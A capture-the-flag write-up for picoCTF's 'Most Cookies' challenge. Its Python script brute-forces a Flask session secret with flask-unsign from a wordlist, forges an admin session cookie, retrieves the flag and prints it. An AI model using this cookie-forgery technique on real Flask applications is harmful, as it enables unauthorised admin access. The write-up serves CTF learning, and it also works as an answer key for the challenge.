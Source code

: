 <h1>Most Cookies</h1>
<h3>Description</h3>
<pre>
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! <a href='https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py'>server.py</a> http://mercury.picoctf.net:65344/
</pre>
<h3>Solution</h3>
<p>Bruteforce secret JWT lalu signing dengan payload '{"very_auth":"admin"}'</p>

```python3
import subprocess
import requests

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
url = 'http://mercury.picoctf.net:65344/'
file = 'test'
secret = subprocess.run(
                ['flask-unsign','-u','--server',url,'--wordlist',file,'--no-literal-eval'],
                capture_output=True,
                text=True
        )
result = secret.stdout
new_payload = '{"very_auth":"admin"}'

generate = subprocess.run(
                ['flask-unsign','--sign','--cookie',new_payload,'--secret',result[2:-2]],
                capture_output=True,
                text=True
        )

cookies = {'session':generate.stdout[:-1]}
res = requests.get(url,cookies=cookies).text.split('<code>')[1].split('</code>')[0]
print(res)
```
<h3>Flag</h3>
<pre>
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
</pre>
